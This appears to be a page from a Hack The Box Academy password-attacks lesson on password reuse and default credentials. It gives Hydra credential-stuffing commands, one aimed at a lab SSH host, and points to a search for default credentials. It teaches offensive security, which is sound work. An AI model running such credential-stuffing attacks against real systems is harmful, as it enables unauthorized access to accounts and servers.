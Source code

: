 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/147/section/1328
// Platform Version: V1
// Module ID: 147
// Module Name: Password Attacks
// Module Difficulty: Medium
// Section ID: 1328
// Section Title: Password Reuse / Default Passwords
// Page Title: Password Attacks
// Page Number: 6
-->

# Password Reuse / Default Passwords

**Module Name:** Password Attacks **Page Number:** 6

#### PASSWORD ATTACKS

# Password Reuse / Default Passwords

## Credential Stuffing

#### Credential Stuffing - Hydra Syntax

``` shell-session
[!bash!]$ hydra -C <user_pass.list> <protocol>://<IP>
```

#### Credential Stuffing - Hydra

``` shell-session
[!bash!]$ hydra -C user_pass.list ssh://10.129.42.197

...
```

#### Google Search - Default Credentials

![https://academy.hackthebox.com/storage/modules/147/Google-default-creds.png](https://academy.hackthebox.com/storage/modules/147/Google-default-creds.png)

# 

# 

#### Questions

####